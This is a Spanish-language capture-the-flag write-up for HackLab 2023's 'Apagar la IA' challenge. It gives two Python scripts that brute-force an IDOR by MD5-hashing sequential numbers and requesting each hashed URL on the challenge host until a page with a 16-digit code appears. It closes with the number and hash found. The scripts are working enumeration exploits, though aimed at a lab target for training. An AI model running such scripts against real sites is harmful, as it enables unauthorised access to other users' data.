









# Desafío 5 - Apagar la IA (HackLab 2023)

Desafío 5 - Apagar la IA (HackLab 2023) 
Training EN VIVO 🔴 | IDOR (46:45 arranca, igual no sirve de mucho) 
 
En ambas soluciones asegúrense de modificar el URL por el que les aparezca a ustedes, 
todos tenemos uno distinto. 
Solución 1 
Ambas resoluciones siguen la misma lógica pero cambia el script que ejecutó. Este script 
lo hice totalmente con chat gpt sin tener que descargar ninguna librería en cambio el otro 
código me lo envio uno de los pibes por telegram pero tuve que descargar varias librerías. 
La gran diferencia esta en que mi código para un rango de 1000 numeros tarda 2:16 
minutos y el otro código para el mismo rango tarda 4,38 segundos. 
 
El paso a paso completo deje todo en la solución 2. 
 
#!/usr/bin/env python3 
# chat.py - prueba hashes MD5 de números en un rango contra un endpoint 
y busca un código de 16 dígitos 
# Solo usa librerías estándar. 
 
import sys 
import os 
import re 
import hashlib 
import urllib.request 
import urllib.error 
import argparse 
 
# DEFAULT URL (puede reemplazarse con --url) 
# Asegurate que la URL tenga exactamente un "{}" donde insertar el md5 
DEFAULT_URL_BASE 
= 
"https://chl-4291e720-871d-4e90-a43e-c438012db0f1-apagar-ia.softwareseg
uro.com.ar/codes/{}"

OUTPUT_DIR = "pages" 
TIMEOUT = 10  # segundos para la conexión 
 
def md5_of_text(s: str) -> str: 
    return hashlib.md5(s.encode("utf-8")).hexdigest() 
 
def fetch_url(url: str) -> str: 
    req = urllib.request.Request(url, headers={ 
        "User-Agent": "Mozilla/5.0 (compatible; AA-Bot/1.0)" 
    }) 
    with urllib.request.urlopen(req, timeout=TIMEOUT) as resp: 
        return resp.read().decode("utf-8", errors="ignore") 
 
def ensure_outdir(): 
    os.makedirs(OUTPUT_DIR, exist_ok=True) 
 
def save_page(md5hash: str, html: str) -> str: 
    filepath = os.path.join(OUTPUT_DIR, f"{md5hash}.html") 
    with open(filepath, "w", encoding="utf-8") as f: 
        f.write(html) 
    return filepath 
 
def find_16digit(html: str): 
    m = re.search(r"\b\d{16}\b", html) 
    return m.group(0) if m else None 
 
def parse_args(): 
    
parser = argparse.ArgumentParser(description="Probar MD5s de 
números en rango y buscar código de 16 dígitos en la página 
resultante.") 
    parser.add_argument("start", nargs="?", type=int, help="Inicio del 
rango (inclusive). Si se omite, se usan valores por defecto cerca de 
9912.", default=None) 
    parser.add_argument("end", nargs="?", type=int, help="Fin del rango 
(inclusive). Si se omite, se usan valores por defecto cerca de 9995.", 
default=None) 
    
parser.add_argument("--zero-pad", type=int, dest="zero_pad", 
default=None, help="Si se quiere probar el número con ceros a la 
izquierda (ej: 16 para '0000000000009912').") 
    
parser.add_argument("--url", 
dest="url_base", 
default=DEFAULT_URL_BASE,

help="URL base con '{}' donde insertar el MD5. 
Ej: 'https://host.example/{}`'.") 
    
parser.add_argument("--verbose", 
"-v", 
action="store_true", 
help="Mostrar más información durante la ejecución.") 
    return parser.parse_args() 
 
def main(): 
    args = parse_args() 
 
    # Valores por defecto si no se pasan 
    if args.start is None or args.end is None: 
        # Como dijiste que 9912 y 9995 son hashes cercanos, usamos un 
rango por defecto centrado allí. 
        # rangos 
        default_start = int(input("Ingrese el número inicial: ")) 
        default_end = int(input("Ingrese el número final: ")) 
        start = args.start if args.start is not None else default_start 
        end = args.end if args.end is not None else default_end 
    else: 
        start = args.start 
        end = args.end 
 
    url_base = args.url_base 
    if "{}" not in url_base: 
        
print("[ERROR] La URL debe contener '{}' exactamente donde 
insertar el MD5.") 
        print("Ejemplo válido: https://mihost/endpoint/{}") 
        sys.exit(1) 
 
    ensure_outdir() 
 
    
print(f"[+] 
Probando 
rango 
{start}..{end}" 
+ 
(f" 
con 
zero-pad={args.zero_pad}" if args.zero_pad else "")) 
    if args.verbose: 
        print(f"[+] URL base: {url_base}") 
 
    for n in range(start, end + 1): 
        candidate = str(n) 
        if args.zero_pad: 
            candidate_to_hash = candidate.zfill(args.zero_pad) 
        else: 
            candidate_to_hash = candidate

md5hash = md5_of_text(candidate_to_hash) 
        url = url_base.format(md5hash) 
 
        try: 
            html = fetch_url(url) 
        except urllib.error.HTTPError as e: 
            # 404 u otros: ignoramos y seguimos 
            if args.verbose: 
                print(f"[-] HTTP {e.code} para MD5 {md5hash} (candidate 
{candidate_to_hash})") 
            continue 
        except Exception as e: 
            print(f"[!] Error al solicitar {url}: {e}") 
            # opcionalmente continuar 
            continue 
 
        code16 = find_16digit(html) 
        if code16: 
            filepath = save_page(md5hash, html) 
            print(f"[+] ¡ENCONTRADO! Código de 16 dígitos: {code16}") 
            
print(f"    
Candidate (lo que hasheamos): 
'{candidate_to_hash}'") 
            print(f"    MD5 usado en URL: {md5hash}") 
            print(f"    Página guardada en: {filepath}") 
            # además guardamos un pequeño resumen por si lo necesitás 
            
with open(os.path.join(OUTPUT_DIR, "result_summary.txt"), 
"w", encoding="utf-8") as s: 
                
s.write(f"code16={code16}\ncandidate={candidate_to_hash}\nmd5={md5hash}
\npage={filepath}\n") 
            return 
 
        if args.verbose: 
            
print(f"[ ] No encontrado en MD5 {md5hash} (candidate 
{candidate_to_hash})") 
 
    print("[*] Fin del rango sin encontrar un código de 16 dígitos.") 
 
if __name__ == "__main__": 
    main()

Solución 2 
 
Es una versión de IDOR pero en este caso un poco más rebuscada porque en vez de tener 
una ID secuencial tenemos un Hash MD5. 
 
 
Crackeo ambos Hash, esto lo que me da es un indicio de que la vulnerabilidad osea el 
número que hay que convertir a Hash está cerca de los mismos. (Ese chamuyo me metió 
uno de los vagos del telegram)

Tuve que instalar un par de dependencias para poder ejecutar el código bien facha 
 
python -m pip install aiohttp beautifulsoup4 lxml tqdm 
 
 
 
Pruebo ejecutando el código que me dio un amigo secreto de telegram 
import aiohttp 
import asyncio 
import hashlib 
from bs4 import BeautifulSoup 
from tqdm import tqdm 
 
url_base 
= 
"https://chl-15ad21f5-67fb-4a65-a895-427c6c46105a-apagar-ia.softwareseg
uro.com.ar/codes/" 
 
# rangos 
nro_inicial = int(input("Ingrese el número inicial: ")) 
nro_final = int(input("Ingrese el número final: ")) 
 
MAX_CONCURRENT = 50 
 
# generar MD5 
def generar_md5(numero: int) -> str: 
    return hashlib.md5(str(numero).encode()).hexdigest() 
 
# función asíncrona para probar un número y parsear la página 
async def probar(session, i, sema, pbar): 
    async with sema: 
        hash_md5 = generar_md5(i)

url_enviar = url_base + hash_md5 
        try: 
            async with session.get(url_enviar, timeout=10) as response: 
                if response.status == 200: 
                    html = await response.text() 
                    # parseamos el DOM 
                    soup = BeautifulSoup(html, 'html.parser') 
                    li_tags = soup.find_all('li') 
                    for li in li_tags: 
                        texto = li.get_text(strip=True) 
                        if texto.isdigit() and len(texto) == 16: 
                            
print(f"Numero iteracion: {i} -- Numero 16 
dígitos: {texto} -- URL: {url_enviar}") 
        except: 
            pass 
        finally: 
            pbar.update(1) 
 
# función principal 
async def main(): 
    sema = asyncio.Semaphore(MAX_CONCURRENT) 
    async with aiohttp.ClientSession() as session: 
        total = nro_final - nro_inicial + 1 
        with tqdm(total=total, desc="Procesando") as pbar: 
            
tasks = [probar(session, i, sema, pbar) for i in 
range(nro_inicial, nro_final + 1)] 
            await asyncio.gather(*tasks) 
 
# ejecutar 
asyncio.run(main()) 
print("SE HAN PROCESADO TODAS LAS PETICIONES") 
 
 
 
Probe distintos rangos hasta que me dio el resultado correcto(metanle un toque bastante de 
zoom)

Esto me indica que el número 11520 tiene un codigo HTML de 16 dígitos el cual es 
 
Así que genero el Hash MD5 del mismo 
 
a8e0e8ff02dde0f62fdf4de5142d7de0 
 
Y este seria el codigo que hay que subir a la página 
 
 
 
Heridas de guerra de las distintas versiones.

